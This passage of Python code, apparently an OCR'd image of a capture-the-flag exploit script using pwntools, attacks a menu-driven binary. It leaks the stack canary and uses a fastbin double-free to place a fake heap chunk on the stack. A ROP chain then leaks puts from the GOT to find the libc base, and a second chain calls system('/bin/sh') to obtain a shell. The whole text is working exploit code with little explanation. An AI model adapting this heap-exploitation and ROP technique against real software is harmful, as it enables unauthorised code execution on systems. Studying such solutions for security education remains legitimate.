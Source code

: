 ```python
    io.sendline(content)
def exit():
    io.recvuntil("choise:\n")
    io.sendline('4')
def getCanary():
    io.recvuntil('choise:\n')
    io.sendline('3')
    sleep(0.5)
    payload = 'a'*0x19
    io.send(payload)
    io.recvuntil(payload)
    res = io.recv(7)
    res = '\x00'+res
    res = u64(res)
    return res


'''
get canary and address of stack
'''
buf = init()
io.recvuntil('choice:\n\n')
io.sendline('2')
canary = getCanary()


'''
get libc addr
'''
pop_rdi = 0x400d23
main_addr = 0x400a99
payload2 = p64(0) + p64(0x70|1) + p64(0) # fake pre_size and size and fd. fastbin size:0x10-0x80 -> 0x68 => 0x70
payload3 = 'a'*8 + p64(canary) + p64(0xdeadbeef)
payload3 += p64(pop_rdi) + p64(elf.got['puts']) + p64(elf.plt['puts']) + p64(main_addr)

add(1,'aaaa')
add(2,'bbbb')
delete(1)
delete(2)
delete(1)
add(3,p64(buf-0x40))
add(4,'aaaa')
add(5,'bbbb')
write_buf(payload2) # fake chunk info
add(6,payload3) # fake chunk in stack!!!
exit()

puts_addr = u64(io.recv(6)+'\x00\x00')
base_addr = puts_addr - libc.symbols['puts']
sys_addr = base_addr + libc.symbols['system']
sh_addr = base_addr + next(libc.search('/bin/sh'))


'''
get shell
'''
payload4 = p64(0)+p64(0x70|1)+p64(0)
payload5 = 'a'*0x8 + p64(canary) + p64(0xdeadbeef)
payload5 += p64(pop_rdi) + p64(sh_addr) + p64(sys_addr)

delete(1)
delete(2)
```